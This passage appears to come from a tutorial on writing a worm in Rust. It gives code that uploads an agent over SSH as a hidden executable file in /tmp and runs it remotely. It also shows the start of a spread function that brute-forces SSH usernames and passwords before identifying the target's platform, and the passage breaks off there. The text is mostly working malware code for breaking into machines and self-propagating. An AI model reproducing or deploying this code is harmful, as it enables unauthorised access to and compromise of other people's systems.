 ### Upload

With `scp` we can upload a file through an SSH connection:
```rust
fn upload_agent(ssh: &Session, agent_path: &PathBuf) -> Result<String, crate::Error> {
    let rand_name: String = thread_rng()
        .sample_iter(&Alphanumeric)
        .take(32)
        .map(char::from)
        .collect();
    let hidden_rand_name = format!(".{}", rand_name);

    let mut remote_path = PathBuf::from("/tmp");
    remote_path.push(&hidden_rand_name);

    let agent_data = fs::read(agent_path)?;

    println!("size: {}", agent_data.len());

    let mut channel = ssh.scp_send(&remote_path, 0o700, agent_data.len() as u64, None)?;
    channel.write_all(&agent_data)?;

    Ok(remote_path.display().to_string())
}
```

### Installation

As our worm installs itself on its first execution, we only need to launch it through SSH and let it live its own life.

```rust
fn execute_remote_agent(ssh: &Session, remote_path: &str) -> Result<(), crate::Error> {
    let mut channel_exec = ssh.channel_session()?;
    channel_exec.exec(&remote_path)?;
    let _ = consume_stdio(&mut channel_exec);

    Ok(())
}
```

Finally, putting it all together and we have our `spread` function:
```rust
pub fn spread(install_dir: PathBuf, host_port: &str) -> Result<(), crate::Error> {
    let tcp = TcpStream::connect(host_port)?;
    let mut ssh = Session::new()?;
    ssh.set_tcp_stream(tcp);
    ssh.handshake()?;

    match bruteforce(&mut ssh)? {
        Some((username, password)) => {
            println!(
                "Authenticated! username: ({}), password: ({})",
                username, password
            );
        }
        None => {
            println!("Couldn't authenticate. Aborting.");
            return Ok(());
        }
    };

    let platform = identify_platform(&ssh)?;
    println!("detected platform: {}", platform);

```